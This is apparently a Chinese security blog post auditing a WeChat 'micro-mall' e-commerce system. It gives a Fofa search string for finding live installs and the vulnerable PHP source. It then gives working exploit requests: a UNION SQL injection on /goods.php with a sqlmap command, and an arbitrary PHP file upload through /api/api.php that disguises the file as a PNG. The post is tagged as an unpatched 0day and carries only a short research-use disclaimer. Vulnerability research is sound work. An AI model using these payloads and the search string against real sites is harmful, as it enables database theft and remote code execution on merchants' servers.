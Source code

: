 #  某蓝星抖音快手微商城RCE漏洞审计   
 实战安全研究   2024-11-09 15:48  
  
## 0x00 前言  
  
   ******微商城系统，是一种小型电子商务系统。该系统融合了社交媒体的互动性和网络商城的交易功能，为商家提供了一个集商品展示、在线交易、营销推广、用户管理、数据分析等功能于一体的综合性电商平台。系统充分利用了微信的社交属性和广泛的用户基础，通过微信公众号或小程序等形式，为商家搭建起一个便捷的在线商城。用户无需下载额外应用，即可在微信内完成商品的浏览、选购、支付等操作，享受全方位的购物体验。**  
```
Fofa:"/Mao_Public/js/jquery-2.1.1.min.js"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cgSXTpNVEnBMtTmt2d034LicRRsbWUuGibbKQnqkfyYZ3c6pg9gpWic36bvibYQo39UWUF3AtFAoCA7A/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cJovw7IPn8Vl8mDOMb5yIfO2jkHE8tBqDKD0wicprJ6mcXzwXkEK3FU71zE7c93WAdTTtlVjkCjfg/640?wx_fmt=other&from=appmsg "")  
## 0x01 前台SQL注入漏洞  
  
**位于 /goods.php 存在很明显的SQL注入漏洞，直接GET传入id参数，然后直接被带入到了查询之中.**  
```
<?php
require './Mao/common.php';
$id= isset($_GET['id']) ? $_GET['id'] : 0;
$cha_1 = $DB->get_row("select * from mao_shop where M_id='{$mao['id']}' and id='{$id}' limit 1");
if($cha_1['type'] == 1){
    $bt = "天猫优选";
}elseif ($cha_1['type'] == 2){
    $bt = "超值捡漏";
}elseif ($cha_1['type'] == 3){
    $bt = "人气销量";
}
if(!$cha_1){
    sysmsg("商品不存在！");
}
?>
```  
  
**Payload:**  
```
GET /goods.php?id='+UNION+ALL+SELECT+NULL,NULL,NULL,CONCAT(IFNULL(CAST(CURRENT_USER()+AS+NCHAR),0x20)),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+- HTTP/1.1
Cache-Control: no-cache
Cookie: PHPSESSID=2t6mrecrn4kesrguck8o1c1ohp
Host: 127.0.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```  
  
****  
**Python sqlmap.py -u "http://127.0.0.1/goods.php?id=*" --level=3 --dbms=mysql**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cgSXTpNVEnBMtTmt2d034LqF03CEJXCbXnngrHCow6YJhER9Ucp8QpLKoJM6MApxBYEVWiapjibceA/640?wx_fmt=other&from=appmsg "")  
## 0x02 前台任意文件上传漏洞  
  
**位于 /api/api.php 存在一段很明显的任意文件上传漏洞，直接构造mod=upload&type=1即可上传任意文件**  
```
elseif($mod == "upload"){
  $type = daddslashes($_REQUEST['type']);
if($type == 1){
  if ((($_FILES["file"]["type"] == "image/gif") || ($_FILES["file"]["type"] == "image/jpeg") || ($_FILES["file"]["type"] == "image/png") || ($_FILES["file"]["type"] == "image/pjpeg")) && ($_FILES["file"]["size"] < 5242880)){
    if ($_FILES["file"]["error"] > 0){
      $result=array("code"=>-2,"msg"=>"上传出错！");
      exit(json_encode($result));
    }else{
      $cmm = date("YmdHis").rand(111,999);
      $name = explode('.',$_FILES["file"]["name"]);
      $newPath = $cmm.'.'.$name[1];
      if (preg_match("/[\x7f-\xff]/", $newPath)) {
        $result=array("code"=>-3,"msg"=>"文件名称不能为中文！");
        exit(json_encode($result));
      }
      if (file_exists("../upload/" . $newPath)){
        $result=array("code"=>-2,"msg"=>"上传出错！");
        exit(json_encode($result));
      }else{
        move_uploaded_file($_FILES["file"]["tmp_name"],"../upload/" . $newPath);
        $lj=array("src"=>"/upload/{$newPath}","title"=>"图片");
        $result=array("code"=>0,"msg"=>"上传成功！","data"=>$lj,"name"=>"/upload/{$newPath}");
        exit(json_encode($result));
      }
    }
  }else{
    $result=array("code"=>-3,"msg"=>"图片大小不能超过5M！{$_FILES["file"]["size"]}");
    exit(json_encode($result));
  }
}
else{
  $result=array("code"=>-1,"msg"=>"上传类型不存在！");
}
exit(json_encode($result));
}//图片上传接口
```  
Payload:```
POST /api/api.php?mod=upload&type=1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 196
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTqkdY1lCvbvpmown
Cookie: _ga=GA1.1.726509027.1723706258; _gid=GA1.1.511565798.1723706258; visiter_id=66becd1deegc38y28e1; cid=; services=1; itime=; service_token=fd70IOTMA6uf9x5ik%252FK%252Bp4E8K3BoyjlZd1eqHSIuOVum9qwpawRVCPE; think_lang=zh-cn; PHPSESSID=8954e10b597781256b751d2e72305b76
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/api/api.php?mod=upload&type=1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
sec-ch-ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

------WebKitFormBoundaryaKljzbg49Mq4ggLz
Content-Disposition: form-data; name="file"; filename="a.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryaKljzbg49Mq4ggLz--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cgSXTpNVEnBMtTmt2d034LzR4DmoyoS8X2IXibmLWUjZiap9TqV2VewpGpkLgnFcCibu1AAHh24Ta7g/640?wx_fmt=other&from=appmsg "")  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转，RCE**  
  
**微商城源码关注公众号发送 wst 获取**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
